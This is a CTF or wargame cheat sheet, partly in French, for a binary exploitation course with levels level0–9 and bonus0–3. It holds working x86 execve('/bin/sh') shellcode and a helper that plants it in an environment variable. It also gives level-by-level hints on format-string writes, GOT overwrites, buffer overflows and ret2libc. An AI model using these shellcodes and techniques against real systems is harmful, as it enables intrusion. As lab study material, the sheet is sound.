 # commands

## shell commands
to print hex values
```
perl -e 'print "A"x12 . "\x2a"'
```

to keep stdin open
- `(echo "hey"; cat) | ./whatever`
- `echo "hey" > /tmp/args && cat /tmp/args - | ./whatever`

dump memory at `0x80486a0` with 1 line before & 3 lines after
- `xxd level0 | grep -B1 -A3 "00006a0"`
- radare2 -> `g` + `0x80486a0`

## gdb commands
always show 3 code line (undisplay 1)
```
display/3i $pc
```

run and sent in stdin
```
r < <(perl -e 'print "A"x5')
```

find in memory
```bash
info proc map  # to get the address
# find <start>, <end>, <str>
find 0xb7e2b000, 0xc0000000, "/bin/sh"

# with gdb
find "/bin/sh"
```

## shellcode
length = 21
```
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
```

length = 28
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
```

### in env var
```c
/* /tmp/getenv.c */

/*
compile:
gcc -g -w /tmp/getenv.c -o /tmp/getenv
execute (pwd = /tmp)
./getenv SHELLCODE
*/
#include <unistd.h>

int main(int ac, char ** av) {
	if (ac < 2)
		printf("./getenv <env-var-name>");
	else
		printf("%s address: 0x%lx\n", av[1], getenv(av[1]));
	return 0;
}
```
```bash
> gcc -g -w /tmp/getenv.c -o /tmp/getenv && cd /tmp && ./getenv SHELLCODE && cd -
SHELLCODE address: 0xbffff845
```
```bash
export SHELLCODE="`perl -e 'print "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"'`"
```

## asm
### rep
Repeat string operation:
- `rep movs` -> used for memcpy
- `rep stos` -> used for memset
- `repnz scas` -> used for strlen

All rep type:
- `rep` -> repeat while equal
- `repnz` -> repeat while nonzero
- `repz` -> repeat while zero

## levels

### level0
appel avec le bon nombre en arg

### level1
call une fonction caché

### level2
insert a shellcode.

call it with a call eax (`objdump -d level2 | grep call`)

### level3
avec printf

changer la valeur de la variable `0x804988c` a 64 pour passer un if

pour rappel:
```C
printf("%2\$x");  // ecrit le 2eme arg (en pointeur)
printf("%5\$n");  // ecrit le nombre de char deja print a l'address
// a un certain offset, l'argument est le parametre principal de printf
```

### level4
pareil que le 3 mais faut ecrire un grand nombre:
```C
// ecrire un grand nombre de char
"%250x"
// ecrire sur 2 octet (et pas 4)
"%12\$hn"
```

### level5
toujours printf.

il faut changer l'adresse qui pointe sur exit (0x8049838) avec l'addresse de o (0x080484a4).

### level6
faut juste changer l'addresse (call eax) avec l'adresse de n

### level7
dans le premier arg, il faut envoyer 20 char puis l'adresse de puts (0x8049928).

Ca va permettre d'ecrire a cette adresse l'adresse de m (0x080484f4)

### level8
"auth "
"service0123456701234567"
"login"

### level9
c++

faut envoyer un shellcode en argument et faire pointer vers ce shellcode

a la fin il y a un call edx -> pour trouver l'offset, il faut `b *main+142` et regarder la valeur de l'EAX.

/!\ avant le shellcode, il faut mettre un jump de quelques octets

### bonus0
faut mettre le shellcode dans une var d'environnement

apres on envoie une str de 4096 (premier read) puis l'addr du shellcode dans la 2eme (offset de 9 avec des char apres)

### bonus1
```
./bonus1 <int> <str>
```
ca copy `4*av[0]` char dans un strcpy (sur un char[40]).

il faut donc copier 44 char

pour faire ca, il faut envoyer un nombre negatif

### bonus2
il faut passer la var LANG a 'fi'

ensuite faut appeler system (`i func system`) avec "/bin/sh" (`find 0xb7e2b000, 0xc0000000, "/bin/sh"`)

faut trouver les offset et envoyer le /bin/sh en permier arg et system en second arg

### bonus3
just `./bonus3 ""` :)
